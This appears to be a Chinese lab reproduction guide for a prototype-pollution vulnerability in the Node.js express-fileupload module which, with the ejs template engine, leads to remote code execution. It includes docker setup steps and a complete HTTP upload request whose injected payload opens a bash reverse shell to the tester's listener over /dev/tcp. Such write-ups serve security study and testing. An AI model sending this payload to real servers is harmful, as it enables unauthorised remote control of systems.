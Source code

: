 # NodeJS expresss-fileupload模块原型链污染漏洞（CVE-2022-7699）

## 漏洞原理

`express-fileupload`是用来处理上传文件的中间件，在`1.1.7-alpha.4`及以前的版本存在原型链污染漏洞，如果站点还使用`ejs模板引擎(<=3.1.6)`，可以通过构造调用链污染`outputFunctionName`参数从而造成远程代码执行。

参考链接：

- https://blog.p6.is/Real-World-JS-1/
- https://www.leavesongs.com/PENETRATION/javascript-prototype-pollution-attack.html

## 环境搭建

编译及运行环境：

```bash
docker-compose build
docker-compose up -d
```

## 漏洞复现

成功运行后，访问`http://your-ip:3000/`即可查看。

![img](1.png)

首先在本机开启端口监听，之后发送如下数据包，即可成功反弹shell。

```text
POST /upload HTTP/1.1
Host: your-ip:3000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Connection: close
Content-Length: 306
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarypDa6OHB96f0GI9ze

------WebKitFormBoundarypDa6OHB96f0GI9ze
Content-Disposition: form-data; name="__proto__.outputFunctionName"

x;process.mainModule.require('child_process').exec('bash -c "bash -i &> /dev/tcp/your-ip/4444 0>&1"');delete Object.prototype['outputFunctionName'];x
------WebKitFormBoundarypDa6OHB96f0GI9ze--
```

PS：发送攻击后，会污染整个程序的原型链。之后正常的访问页面也会有影响，除非重启整个程序。所以需要删除污染的原型。
